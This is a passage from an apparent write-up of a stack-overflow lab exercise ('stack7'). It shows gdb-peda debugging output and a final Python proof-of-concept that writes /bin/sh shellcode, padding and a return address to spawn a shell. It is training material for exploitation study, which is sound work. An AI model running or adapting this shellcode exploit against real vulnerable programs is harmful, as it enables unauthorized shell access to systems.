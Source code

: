 Following outputs is from another vm which has peda installed.

```nasm
gdb-peda$ r < exploit.bin
Starting program: stack7 < exploit.bin
input path please: got path 1�Phn/shh//bi��1�1Ұ
...TRIM...
[----------------------------------registers-----------------------------------]
EAX: 0x804b008 --> 0x6850c031 
EIP: 0x804b008 --> 0x6850c031
...TRIM...               
-------------------------------------code-------------------------------------                  0x804b001:	add    BYTE PTR [eax],al
   0x804b003:	add    BYTE PTR [ecx+0x0],ah
   0x804b006:	add    BYTE PTR [eax],al
=> 0x804b008:	xor    eax,eax  <== Our shellcode
   0x804b00a:	push   eax
   0x804b00b:	push   0x68732f6e
   0x804b010:	push   0x69622f2f
   0x804b015:	mov    ebx,esp            
...TRIM...                                              
gdb-peda$ x/21wx $eax
0x804b008:	0x6850c031	    0x68732f6e	0x622f2f68	0x31e38969
0x804b018:	0xb0d231c9	    0x4180cd0b	0x41414141	0x41414141
0x804b028:	0x41414141	    0x41414141	0x41414141	0x41414141
0x804b038:	0x41414141	    0x41414141	0x41414141	0x41414141
0x804b048:	=>0x08048466<=	0x41414141	0x41414141	0x41414141
0x804b058:	0x08048466
```
There is something wrong with data that I write on **eax** on debugger but it worked on another VM which doesn't have gdb-peda. 

Final poc works properly as well.

#### 2.3 Final PoC

```py
$ python2 -c 'import sys; sys.stdout.write("\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "A"*57 + "\x66\x84\x04\x08")' > x.bin

$ (cat x.bin; cat) | ./stack7
input path please: X
got path 1�Phn/shh//bi��1�1Ұ
                            AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAf�AAAAAAAAAAAAf�X
id
uid=1000(a) gid=1000(a) groups=1000(a),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```
